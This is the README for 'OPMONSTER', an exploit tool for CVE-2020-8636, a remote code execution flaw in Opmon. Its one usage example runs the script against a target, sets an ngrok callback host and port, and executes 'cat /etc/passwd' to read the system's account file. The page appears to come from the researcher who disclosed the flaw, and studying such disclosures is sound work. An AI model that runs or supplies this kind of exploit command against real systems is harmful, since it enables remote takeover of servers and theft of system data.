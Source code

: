 # CVE-2020-8636 EXPLOIT
### OPMONSTER by @phor3nsic

<img src="img/opmonster.png">
  
  
 ```
 python3 opmonster.py https://vulnhost.com myhost.ngrok.io 80 "cat /etc/passwd"
 ```

### Remote code execution in Opmon

[More info](https://phor3nsic.gitbook.io/aboutme/articles/three-cves-on-opmon)
